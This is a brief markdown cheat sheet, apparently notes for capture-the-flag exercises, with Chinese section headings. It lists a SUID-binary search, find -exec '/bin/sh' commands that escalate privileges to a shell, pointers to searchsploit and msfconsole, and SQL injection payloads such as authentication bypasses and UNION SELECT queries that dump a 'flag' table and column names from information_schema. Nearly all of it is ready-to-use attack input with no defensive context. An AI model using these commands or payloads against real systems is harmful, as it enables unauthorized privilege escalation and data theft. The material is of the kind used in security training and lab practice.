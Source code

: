 ### `find` 提权

```zsh
find / -perm -u=s -type f 2>/dev/null


1. find ./ acce -exec '/bin/sh' \;

2. touch bcce
find bcce -exec '/bin/sh' \;
```

### `searchsploit`

```
msfconsole
searchsploit
/usr/share/exploitdb
```

### `SQL` 注入

```
username=a' or 1 #
a' or 1 union select 1,group_concat(flag),3 from flag#            

table_schema=database();                           


admin' or '1'='1' 
union select 1,group_concat(column_name),3 
from information_schema.columns 
where table_name='flag'#
```


